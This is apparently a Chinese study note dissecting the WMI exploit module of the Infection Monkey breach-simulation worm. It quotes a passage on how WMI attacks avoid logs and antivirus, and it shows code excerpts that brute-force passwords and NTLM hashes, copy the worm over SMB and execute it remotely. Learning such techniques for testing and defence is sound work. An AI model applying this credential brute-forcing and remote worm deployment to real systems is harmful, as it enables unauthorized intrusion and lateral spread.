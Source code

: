 

#### exploit [code](https://github.com/guardicore/monkey/tree/develop/monkey/infection_monkey/exploit)

学习复现其蠕虫自带攻击手法

##### 1.wmiexec  [参考资料](https://www.secpulse.com/archives/39555.html)

> WMI 的全称是 Windows Management Instrumentation，它出现在所有的 Windows 操作系统中，由一组强大的工具集合组成，用于管理本地或远程的 Windows 系统。当攻击者使用wmiexec来进行攻击时，Windows系统默认不会在日志中记录这些操作，这意味着可以做到攻击无日志，同时攻击脚本无需写入到磁盘，具有极高的隐蔽性。越来越多的APT事件中也出现了WMI攻击的影子，利用WMI可以进行信息收集、探测、反病毒、虚拟机检测、命令执行、权限持久化等操作。
>
> 最开始我不太喜欢WMI，因为通过WMI执行的命令是没有回显的，这会带来很大的不便。不过在HES2014上有研究者提出了回显的思路，加上psexec类的攻击已被很多的杀软查杀，研究下WMI攻击还是很有必要的。
>
> ```
> 常见的WMI攻击工具有这些
> PTH-WMIS (最早wmi攻击的工具，单条命令执行，无回显，需要pth-smbget配合读取结果)
> impackets wmiexec(Linux跨window经常用)
> wmiexec.vbs (国人制造 为了回显会写文件)
> Invoke-WmiCommand&Invoke-PowerShellWmi
> ```

wmi模块采用传统的账号密码爆破

```python
 creds = self._config.get_exploit_user_password_or_hash_product()  #获取账号密码或者hash

        for user, password, lm_hash, ntlm_hash in creds: #尝试暴力破解
            LOG.debug("Attempting to connect %r using WMI with user,password,lm hash,ntlm hash: ('%s','%s','%s','%s')",
                      self.host, user, password, lm_hash, ntlm_hash)

            wmi_connection = WmiTools.WmiConnection()

            try:
                wmi_connection.connect(self.host, user, password, None, lm_hash, ntlm_hash)
            except AccessDeniedException:
                
                
#查看该进程是否在本机运行过
 process_list = WmiTools.list_object(wmi_connection, "Win32_Process",
                                                fields=("Caption",),
                                                where="Name='%s'" % ntpath.split(src_path)[-1])

# 通过smb协议拷贝文件到目标机器上  copy the file remotely using SMB
            remote_full_path = SmbTools.copy_file(self.host,
                                                  src_path,
                                                  self._config.dropper_target_path_win_32,
                                                  user,
                                                  password,
                                                  lm_hash,
                                                  ntlm_hash,
                                                  self._config.smb_download_timeout)
    
 # 执行蠕虫 execute the remote monkey
            result = WmiTools.get_object(wmi_connection, "Win32_Process").Create(cmdline,
                                                                                 ntpath.split(remote_full_path)[0],
                                                                                 None)
```
